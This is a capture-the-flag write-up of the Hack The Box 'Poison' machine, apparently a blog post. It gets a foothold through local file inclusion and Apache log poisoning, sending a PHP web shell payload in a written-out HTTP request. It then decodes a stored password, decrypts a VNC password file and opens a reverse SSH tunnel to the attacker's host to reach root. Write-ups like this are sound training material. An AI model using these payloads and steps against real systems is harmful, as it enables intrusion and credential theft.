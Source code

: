 ```yaml
---
layout: single_c
title:  "Hack The Box - Poison Writeup"
date:   2020-07-05 10:43:16 +0530
toc: true
categories: HTB
tags: OSCP
classes: wide
---
```

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/poison/poison.png){: .align-center}
## Description:
This a medium rated freebsd machine. Easy user shell and some interesting privilege escalation vector.

## Enumeration

Add `poison.htb` to `hosts` and start an `nmap` scan.

### Nmap

```bash
# Nmap 7.80 scan initiated Wed Sep  2 10:41:42 2020 as: nmap -sS -p- -T4 -oN _full_nmap -vvvv poison.htb
Nmap scan report for poison.htb (10.10.10.84)
Host is up, received echo-reply ttl 63 (0.30s latency).
Scanned at 2020-09-02 10:41:42 IST for 902s
Not shown: 65533 closed ports
Reason: 65533 resets
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Sep  2 10:56:44 2020 -- 1 IP address (1 host up) scanned in 902.18 seconds
```

Visiting port 80 give us a page that can run `php` scripts.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/poison/web.png){: .align-center}

## User Shell

The page seems to be vulnerable to `lfi`.

We have two methods to get shell, directly using `lfi` to read file and by poisoning the `apache` log.

### Method 1 (listfile.php)

Using `listfiles.php` shows a password backup file and we can read the file directly.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/poison/list.gif){: .align-center}

### Method 2 (Log poisoning)

The `apache` log file is stored at `/var/log/httpd-access.log`.

Accessing the file shows that the `user-agent` is being logged. 

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/poison/log.png){: .align-center}

All we have to do is add the php code to be executed in our header. The following payload can be used for command execution.

```bash
GET /browse.php?file=/var/log/httpd-access.log&cmd=id HTTP/1.1

Host: poison.htb

User-Agent: <?php system($_REQUEST['cmd']); ?>

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Upgrade-Insecure-Requests: 1

```

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/poison/rce.png){: .align-center}

And we can see that our payload has been executed. Change the payload to get a shell.

After getting a shell we can read the contents of `pwdbackup.txt`.

### Decoding password
We have a password that has been `bas64` encoded 13 times. Decode it using python.

```python
>>> import base64
>>> pwd = open('./pwd', 'r').read().strip()
>>> for i in range (13):
...     pwd=base64.b64decode(pwd)
...
>>> print(pwd)
Charix!2#4%6&8(0
```

We can `ssh` into the box.

```bash
kali@kali:~/Desktop/htb/poison$ ssh charix@poison.htb
Password for charix@Poison:
Last login: Wed Sep  2 15:20:22 2020 from 10.10.14.21
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
If you want df(1) and other commands to display disk sizes in
kilobytes instead of 512-byte blocks, set BLOCKSIZE in your
environment to 'K'.  You can also use 'M' for Megabytes or 'G' for
Gigabytes.  If you want df(1) to automatically select the best size
then use 'df -h'.
charix@Poison:~ % id
uid=1001(charix) gid=1001(charix) groups=1001(charix)
```

There is a zip archive named `secret` that is encrypted with a password. It can be extracted using the `ssh` password of `charix`

```bash
charix@Poison:~ % file secret.zip
secret.zip: Zip archive data, at least v2.0 to extract

kali@kali:~/Desktop/htb/poison$ unzip secret.zip
Archive:  secret.zip
[secret.zip] secret password:
replace secret? [y]es, [n]o, [A]ll, [N]one, [r]ename: y
 extracting: secret
kali@kali:~/Desktop/htb/poison$ file secret
secret: Non-ISO extended-ASCII text, with no line terminators
kali@kali:~/Desktop/htb/poison$ cat secret
[|Ֆz!
```

The extracted file contains some non printable characters. No idea what it is.

## Root Shell

Checking the listening ports, we can see that `tightvnc` is listening on internal interface.

```bash
$ sockstat -4 -l
USER     COMMAND    PID   FD PROTO  LOCAL ADDRESS         FOREIGN ADDRESS
www      httpd      15161 4  tcp4   *:80                  *:*
root     sendmail   663   3  tcp4   127.0.0.1:25          *:*
www      httpd      662   4  tcp4   *:80                  *:*
www      httpd      661   4  tcp4   *:80                  *:*
www      httpd      660   4  tcp4   *:80                  *:*
www      httpd      659   4  tcp4   *:80                  *:*
www      httpd      658   4  tcp4   *:80                  *:*
root     httpd      646   4  tcp4   *:80                  *:*
root     sshd       641   4  tcp4   *:22                  *:*
root     Xvnc       550   1  tcp4   127.0.0.1:5901        *:*
root     Xvnc       550   3  tcp4   127.0.0.1:5801        *:*
root     syslogd    411   7  udp4   *:514                 *:*
```

While doing some research on `vnc`, I came upon this.

>Decrypting VNC password

>Default password is stored in: ~/.vnc/passwd

>If you have the VNC password and it looks encrypted (a few bytes, like if it could be and encrypted password). It is probably ciphered with 3des. You can get the clear text password using https://github.com/jeroennijhof/vncpwd
Port forward the local port to our system using `ssh`

So I guess the secret file is the `vnc` password file and it can be decrypted.

```bash
kali@kali:~/Desktop/htb/poison$ git clone https://github.com/jeroennijhof/vncpwd.git
Cloning into 'vncpwd'...
remote: Enumerating objects: 28, done.
remote: Total 28 (delta 0), reused 0 (delta 0), pack-reused 28
Unpacking objects: 100% (28/28), done.
kali@kali:~/Desktop/htb/poison$ cd vncpwd/
kali@kali:~/Desktop/htb/poison/vncpwd$ make
gcc -Wall -g -o vncpwd vncpwd.c d3des.c
kali@kali:~/Desktop/htb/poison/vncpwd$ ls
d3des.c  d3des.h  LICENSE  Makefile  README  vncpwd  vncpwd.c
kali@kali:~/Desktop/htb/poison/vncpwd$ ./vncpwd ../secret
Password: VNCP@$$!
```

So now forward the local port to our system using `ssh`. More about this can be found [here](https://www.youtube.com/watch?v=f5uaxLjCkK0)

1. Start `ssh` on kali
2. Forward port 5901 using `ssh -f -N kali@<ip> -R 5901:localhost:5901`
3. Connect to `vnc` using the password file

On victim machine
```bash
$ ssh -f -N kali@10.10.14.21 -R 5901:localhost:5901
kali@10.10.14.21's password:
```

On our `kali` machine.

```bash
kali@kali:~/Desktop/htb/poison$ vncviewer -passwd secret 127.0.0.1::5901
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding
```
![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/poison/root.png){: .align-center}

And we are root!
